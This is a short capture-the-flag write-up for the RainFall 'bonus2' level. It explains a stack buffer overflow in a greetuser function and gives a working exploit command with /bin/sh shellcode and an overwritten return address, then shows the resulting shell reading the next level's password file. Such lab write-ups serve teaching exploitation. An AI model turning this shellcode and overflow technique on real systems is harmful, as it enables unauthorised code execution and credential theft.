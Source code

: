 # Walkthrough

## Disassemblingg the executable

With objdump -D we locate the interesting functions main and greetuser that we are going to disassemble.

see source.c

## Analysis

The length of the buffer in greetuser does not allow for both the buffer from main and the string to be concatenated with. If the buffer from main is above 66 bytes, the buffer from main will seg fault. We exploit that to write a payload and modify the address in the eip register to jump to our payload

```
bonus2@RainFall:~$ /home/user/bonus2/bonus2 $(python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 16)") $(python -c "print('A' * 23 + '\x80\xf6\xff\xbf')")
Goedemiddag! 1�Ph//shh/bin��PS�ᙰ
                                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ 
```
